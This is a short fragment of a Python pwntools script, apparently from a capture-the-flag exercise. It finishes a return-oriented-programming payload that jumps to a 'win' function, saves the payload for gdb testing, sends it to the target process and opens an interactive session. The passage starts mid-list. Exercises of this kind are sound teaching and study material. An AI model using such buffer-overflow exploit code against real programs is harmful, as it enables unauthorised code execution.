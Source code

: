 ```python
    p64(rop.ret.address),
    p64(addr_win)
])

# Used for testing the payload in `gdb`:
file = open("payload", "wb")
file.write(payload + b"\n")
file.close()

io.recvuntil(b"> ")
io.sendline(payload)
io.interactive()
```
